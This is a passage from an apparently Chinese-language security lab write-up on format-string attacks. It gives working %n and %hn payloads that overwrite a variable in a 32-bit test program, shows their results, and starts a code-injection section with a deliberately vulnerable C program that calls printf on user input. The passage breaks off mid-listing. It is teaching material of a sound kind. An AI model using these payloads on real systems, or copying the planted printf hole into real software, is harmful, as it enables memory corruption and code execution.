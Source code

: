 ```bash
# 多指定四个字节的任意内容插入input头部，然后多用一个%x来消耗之
echo $(printf "\x11\x11\x11\x11\xc4\xd1\xff\xff").%x.%x.%x.%x.%x.%x.%n > input

# 使用不同的%?来消耗栈空间数据，注意不论是用%x，%c还是%d，都是一次读取4字节（32位下），所以仍然需要5个%?
echo $(printf "\xc4\xd1\xff\xff").%c.%d.%c.%x.%c.%n > input

# 以上两种方式写入&var的内容都不一样，因为%n前面打印的长度都不一样
```

### 1.5 攻击四：修改内存中的程序数据为定值

该实验通过控制输出精度来写入定值。

```bash
# 包含4 + (1+8)*4 + (1+10 000 000) = 0x9896a9个字符
echo $(printf "\xc4\xd1\xff\xff")_%.8x_%.8x_%.8x_%.8x_%.10000000x%n > input
# 执行程序
./vul_32 < input
# 可观察到变量值的改变
Data at target address: 0x9896a9
```

### 1.6 攻击四（续）：更快的方法

该实验将var值改成0x66887799，变量var的地址为0xfffffd1c4。如果使用%hn写两次，因为写入值和打印字符的长度相关，而打印字符长度只会越来越长，故则先写入小的值0x6688，再写入0x7799。在小端字节序下，0X6688应写入高地址0xfffffd1c6，0x7799应写入低地址0xfffffd1c4。

```bash
# 为了简便计算，这里的攻击载荷就不像PPT中在每个%之间加一个_作为分隔符了
# 在第一个%hn处写入0x6688，即26248个字符。26248 - 4*3 - 8*4 = 26204，故
# 设置第一个%hn为%26204hn。同理可得第二个%hn精度为0x7799 - 0x6688 = 0x1111 = 4369。
echo $(printf "\xc6\xd1\xff\xff@@@@\xc4\xd1\xff\xff")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
# 执行程序
./vul_32 < input
# 可观察到变量值的改变
Data at target address: 0x66887799
```

## 2. 攻击五：注入恶意代码

首先准备漏洞程序：

```c
// fmtvul.c

#include "stdio.h"

void fmtstr(char *str) {
	unsigned int *framep;
	unsigned int *ret;

	// copy ebp into framep
	asm("movl %%ebp, %0" : "=r" (framep));
	ret = framep + 1;

	printf("address of input array: 0x%.8x\n", (unsigned)str);
	printf("value of the frame pointer: 0x%.8x\n", (unsigned)framep);
	printf("value of the return address: 0x%.8x\n", (unsigned)*ret);

	printf(str);
}

int main(int argc, char **argv) {
	FILE *badfile;
	char str[200];
```